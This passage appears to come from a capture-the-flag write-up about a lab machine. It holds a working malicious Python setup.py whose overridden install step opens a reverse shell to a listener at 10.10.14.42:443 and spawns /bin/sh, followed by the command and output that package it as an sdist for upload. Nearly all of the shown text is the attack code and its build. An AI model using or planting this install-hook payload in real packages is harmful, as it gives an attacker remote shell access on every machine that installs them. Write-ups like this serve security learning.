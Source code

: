 ```

import os
import socket
import subprocess
from setuptools import setup
from setuptools.command.install import install

class Exploit(install):
    def run(self):
        RHOST = '10.10.14.42'
        RPORT = 443
        s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
        s.connect((RHOST, RPORT))
        for i in range(3):
            os.dup2(s.fileno(), i)
        p = subprocess.call(["/bin/sh","-i"])

setup(name='revshell',
      version='0.0.1',
      description='Reverse Shell',
      author='0xdf',
      author_email='0xdf',
      url='http://sneakycopy.htb',
      license='MIT',
      zip_safe=False,
      cmdclass={'install': Exploit})

```

### Package and Upload

#### Local Package

To create a package, I can go into the `revshell` directory that contains `setup.py` and run it with the `sdist` command:

```

root@kali# python setup.py sdist
running sdist
running egg_info
writing revshell.egg-info/PKG-INFO
writing top-level names to revshell.egg-info/top_level.txt
writing dependency_links to revshell.egg-info/dependency_links.txt
reading manifest file 'revshell.egg-info/SOURCES.txt'
writing manifest file 'revshell.egg-info/SOURCES.txt'
running check
creating revshell-0.0.1
creating revshell-0.0.1/revshell.egg-info
copying files to revshell-0.0.1...
copying README.md -> revshell-0.0.1
copying setup.cfg -> revshell-0.0.1
copying setup.py -> revshell-0.0.1
copying revshell.egg-info/PKG-INFO -> revshell-0.0.1/revshell.egg-info
copying revshell.egg-info/SOURCES.txt -> revshell-0.0.1/revshell.egg-info
copying revshell.egg-info/dependency_links.txt -> revshell-0.0.1/revshell.egg-info
copying revshell.egg-info/not-zip-safe -> revshell-0.0.1/revshell.egg-info
copying revshell.egg-info/top_level.txt -> revshell-0.0.1/revshell.egg-info
Writing revshell-0.0.1/setup.cfg
Creating tar archive
removing 'revshell-0.0.1' (and everything under it)

```
